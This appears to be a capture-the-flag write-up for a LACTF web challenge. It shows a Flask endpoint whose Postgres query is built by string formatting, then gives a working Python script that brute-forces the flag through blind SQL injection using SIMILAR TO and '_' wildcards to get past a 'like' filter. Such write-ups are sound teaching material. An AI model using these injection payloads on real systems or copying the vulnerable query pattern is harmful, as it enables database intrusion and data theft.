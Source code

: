 ```python

        assert all(c in allowed_chars for c in username), "no character for u uwu"
        assert all(
            forbidden not in username.lower() for forbidden in forbidden_strs
        ), "no word for u uwu"

        with conn.cursor() as curr:
            curr.execute("SELECT * FROM penguins WHERE name = '%s'" % username)
            result = curr.fetchall()

        if len(result):
            return "We found a penguin!!!!!", 200
        return "No penguins sadg", 201

    except Exception as e:
        return f"Error: {str(e)}", 400

    # need to commit to avoid connection going bad in case of error
    finally:
        if conn is not None:
            conn.commit()

@app.get("/")
def index():
    #not important

if __name__ == "__main__":
    app.run(debug=True)
```

重點 :
```python
            curr.execute("SELECT * FROM penguins WHERE name = '%s'" % username)
allowed_chars = set(string.ascii_letters + string.digits + " 'flag{a_word}'")
forbidden_strs = ["like"]
```

Postgres SQL Injection
`_` 可以當作 wildcard [Reference](https://www.postgresql.org/docs/current/functions-matching.html)
但是題目限制不能用 `LIKE` 所以要改用 `SIMILAR TO`

```python
#!/usr/bin/python3.10

from requests import post
from string import ascii_letters as let, digits as dig

alpha = let + dig
url = "https://penguin.chall.lac.tf/submit"

def bf():
    flag = ""
    for j in range(45 - len(flag)):
        for c in alpha:
            data = {"username": "1' or name similar to '" + flag + c + "_" * (44 - len(flag))}
            r = post(url, data=data)
            if "We" in r.text:
                flag += c
                print(flag)
                break
        else:
            flag += "_"

bf()
```
